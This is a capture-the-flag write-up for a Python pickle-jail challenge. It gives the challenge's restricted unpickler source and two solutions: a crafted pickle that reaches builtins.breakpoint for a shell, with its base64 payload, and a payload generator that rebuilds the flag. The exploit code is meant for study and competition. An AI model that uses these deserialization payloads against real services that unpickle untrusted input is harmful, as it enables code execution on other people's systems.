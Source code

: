 # fickle pickles

author is A~Z, of course (they make good pickle challenges)

source is [here](https://github.com/maple3142/imaginaryCTF-solution/blob/master/2021-08/frikle_pickles)

## challenge

pickles.py
```py
from pickle import _Unpickler as EverSoSecureUnpickler
from base64 import b64decode as extract_base_64


class NotAPickle(EverSoSecureUnpickler):
    from io import BytesIO

    def __init__(self, pickled):
        super().__init__(NotAPickle.BytesIO(pickled))
        self.step = 0

    def find_class(self, module, name):
        self.step += 1

        if module != "__main__" or "ex" in name.lower() or "ev" in name.lower():
            return "Don't even think about it"

        if self.step == 0:
            if name == "flag":
                return "Good boy", parts[2]
            else:
                return "You're bad at this >:("

        if self.step == 1:
            if name == "fleg":
                return ["Is it the flag? Is it not? Is it?", parts[1]]
            else:
                return "Wtf are you trying to hack me?"

        if self.step == 2:
            if name == "flog":
                return {"Can you get the flag out?": parts[0]}
            else:
                return "You should be used to it by now..."

        if self.step == 3:
            # TODO: think about snarky comment
            if name == "flig":
                return (
                    f"This one's gonna be a tad more difficult to extract: {parts[3]}"
                )

        if self.step >= 4:
            # Last but clearly least
            return parts[4]

        # Robustness requires default behavior even though it's impossible to get here
        return super().find_class(module, name)

    # We like light syntax so might as well make good use of it
    def __call__(self):
        return self.load()


def partition_flag():
    with open("flag.txt", "r") as file:
        flag = (
            file.read().strip()
        )  # Since we take security seriously, we partition the flag into 5 parts and only send them one at a time

    return [flag[i : i + 8] for i in range(0, len(flag), 8)]


# I've been told that was good practice
if __name__ == "__main__":
    parts = partition_flag()
    assert len(parts) == 5

    try:
        pickle = NotAPickle(extract_base_64(input("Where are my pickles? ")))()
        assert type(pickle) == str  # Lots of fickle fake pickles out there :c
    except:
        pickle = None

    if "".join(parts) == pickle:
        print(
            "You pickled my pickle! Was it your own doing?\nHere's your reward:",
            "".join(parts),
        )
    else:
        print("Your pickles are fickle! >:~(")
```

## my solution (unintended)

there is no `else` for step 3 so we can just get `__main__.__builtins__.breakpoint` and then get a shell basically

```py
from pickle import *
from base64 import b64encode

p = b''
p += PROTO + b'\x04'
p += 2*(GLOBAL + b'__main__\ntest\n')  # get to step 3
p += GLOBAL + b'__main__\n' + b'__builtins__.breakpoint\n'
p += EMPTY_TUPLE
p += REDUCE

print(b64encode(p))
```

encoded payload: `gARjX19tYWluX18KdGVzdApjX19tYWluX18KdGVzdApjX19tYWluX18KX19idWlsdGluc19fLmJyZWFrcG9pbnQKKVI=`

## intended solution

The attached script generates a right payload. The idea is that at step 3, there is no else statement so that we fallback to super().find_class(module, name) with the sole restriction that the module has to be main, and name must not contain ex or ev. The gist of it is that we can grab the NotAPickle class, and then instance it. Because of the call override, we can use the reduce bytecode to call load; this means we can use the same trick to grab other things, for instance NotAPickle.getattribute to get ''.join and then parts to get ''.join(parts)

```py
from pickletools import dis
from base64 import b64encode

def make(base, main = False):
    if not main:
        base = b'c__main__\n' + base + b'\n'

    payload = b'c__main__\n\n0c__main__\n\n0' + base + b'.'
    payload = b'\x80\x04\x95' + (0 + len(payload)).to_bytes(8, 'little') + payload

    if not main:
        return b'C' + bytes([len(payload)]) + payload + b'o)R'

    return payload

# get_items = b'\x80\x04c__main__\nparts.__getitem__'
_attrs = make(b'NotAPickle.__getattribute__')
_parts = make(b'parts')
payload = make(b'(c__main__\nNotAPickle\n\x94' + _attrs + b'\x8c\x00\x8c\x04join\x86R' + b'(h\x00' + _parts + b'\x85R', main=True)

dis(payload)
print('*'*201)
dis(_attrs[2:-2])
print('*'*201)
dis(_parts[2:-2])
print('*'*201)

print(b64encode(payload).decode())
```
